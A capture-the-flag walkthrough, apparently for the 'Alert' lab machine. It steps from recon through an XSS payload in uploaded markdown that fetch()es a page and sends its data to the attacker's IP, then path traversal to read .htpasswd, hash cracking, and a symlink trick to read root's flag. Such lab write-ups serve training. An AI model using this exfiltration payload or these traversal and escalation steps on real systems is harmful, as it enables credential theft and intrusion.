1.  RUN: **nmap -sV -Pn alert.htb**

Result: PORTS FOUND: 22, 80



2.  Open **HTTP://alert.htb:80**



**INFO:** According to title Alert, it should be XSS vulnerability

**SUBDOMAIN FUZZ**

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://alert.htb -H \"Host:FUZZ.alert.htb\" -ac**

> 

1.  On Kali VM: Start HTTP-Server RUN: **python -m http.server 80**



2.  Create **XSS_payload.md** file

- Paste script in it

- In LINE 5, Replace IP with local Kali VM IP



**Source: <https://github.com/sh3bu/CVE-2024-41662>**

**Script:**

\<script\>

fetch(\"http://alert.htb/index.php?page=messages\")

.then(response =\> response.text()) // Convert the response to
text

.then(data =\> {

fetch(\"http://10.10.14.201/?data=\" +
encodeURIComponent(data));

})

.catch(error =\> console.error(\"Error fetching the messages:\",
error));

\</script\>

- Upload to markdown website



**Result**



Easier to read with <https://www.urldecoder.org/>

3.  Start **python -m http.server 9001** or nc -lvnp 9001



4.  PATCH TRAVERSAL: Create modified script

<http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd>



5.  Upload that script on Website
    [**http://alert.htb**](http://alert.htb)

**Click View Markdown**



Right click -\> copy link

6.  

7.  Upload copied LINK to **Contact** on
    **<http://alert.htb>/index.php?page=contact**



8.  After you click on SEND, you'll get the displayed in Kali VM, the
    **HASH Password**

**%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A**

9. Convert it to cleartext on
    [www.urldecoder.org](http://www.urldecoder.org) or CyberChef
    <https://gchq.github.io/CyberChef>



10. Create file **alert.hash** and paste hash in it

11. Crack it with **hashcat alert.hash /home/kali/Desktop/rockyou.txt**

-Login with **User:** albert **Password:** manchesterunited and display
**user.txt FLAG**

RUN: cat user.txt

**PRIVILEGE ESCALATION**

12. Transfer **linpeas.sh** to Server RUN: **scp linpeas.sh
    <albert@alert.htb>:**

**INFO:** Terminal has to be opened in same directory as file linpeas.sh



13. On server RUN: **./linpeas.sh**

- **Port 8080 is open**



Look for interesting paths, like **/opt/ (NEEDED in STEP 19)**



14. PORT FORWARDING: **ssh -L 8080:127.0.0.1:8080 <albert@alert.htb>**



15. Firefox access **127.0.0.1:8080**



16. Change directory to /opt/website-monitor and list all files

-RUN: **cd /opt/website-monitor**

-RUN: **ls -la**

**INFO: ls -la** is a very useful command for **getting a detailed view
of the files and directories** in a given location, **including hidden
files and their permissions, ownership, sizes, and modification times.**

**-**Explore the **/opt/website-monitor** directory. Investigate, how
the application works. Check which directories have write permission



17. You will see the contents of the monitors directory. You can open
    these files through the browser.

Open following in Browser: **http://127.0.0.1:8080/monitors/alert.htb**



18. The application is running under the root user so you should be able
    to read the **/etc/shadow** or **/root/root.txt**. Just create a
    symlink in the **monitors** directory and call it **root.txt**

- To create SYMBOLIC LINK, RUN: **ln -s /root/root.txt root.txt**



19. Open in Browser: 127.0.0.1:8080/monitors/root.txt to get **Root.txt FLAG**
